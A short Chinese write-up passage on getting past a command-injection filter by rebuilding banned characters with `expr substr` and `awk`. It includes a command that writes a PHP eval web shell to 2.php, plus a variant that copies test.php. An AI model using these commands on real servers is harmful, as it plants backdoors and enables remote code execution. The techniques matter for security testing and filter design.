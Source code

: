 原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

改为:

```
echo `expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`?php eval`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 33 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 35 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 7 1``expr substr $(awk NR==17 test`expr substr $(awk NR==1 xxx)  2 1`php) 2 1``expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 6 1` >2`expr substr $(awk NR==30 test`expr substr $(awk NR==1 xxx)  2 1`php) 13 1`php 
```

执行出现了语法错误.

![2014030416323382082_png.jpg](img/img13_u28_jpg.jpg)

换一个思路,原来绕了个大弯路.直接`cat test.php > xxoo` 就解决了. 不过这样还是过滤成了 test_php，只能先从 xxx 把点借过来.

语句:

```
cat test`expr substr $(awk NR==2 xxx) 6 1`php >xxoo 
```

这样把 test.php 写入 xxoo 文件就 ok 了

